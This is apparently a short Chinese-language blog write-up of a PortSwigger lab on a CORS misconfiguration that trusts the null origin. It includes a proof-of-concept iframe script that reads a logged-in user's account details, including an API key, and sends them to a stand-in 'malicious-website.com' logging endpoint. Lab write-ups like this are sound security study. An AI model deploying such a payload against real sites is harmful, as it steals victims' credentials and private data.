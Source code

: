 

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/cors/images/B72D14489EAE4567A8665558FC2F08C2clipboard.png)

当origin:null时也可以获取到apikey，说明存在cors漏洞



在本地用html验证

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/cors/images/145DB686C5FB4C969DE9DBE31D5F3DB8clipboard.png)

poc:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac8d1f4c1ebc2af2806b9d9d00df0041.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
    //恶意网站
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

将该脚本部署到恶意网站，用户访问即可获取信息。
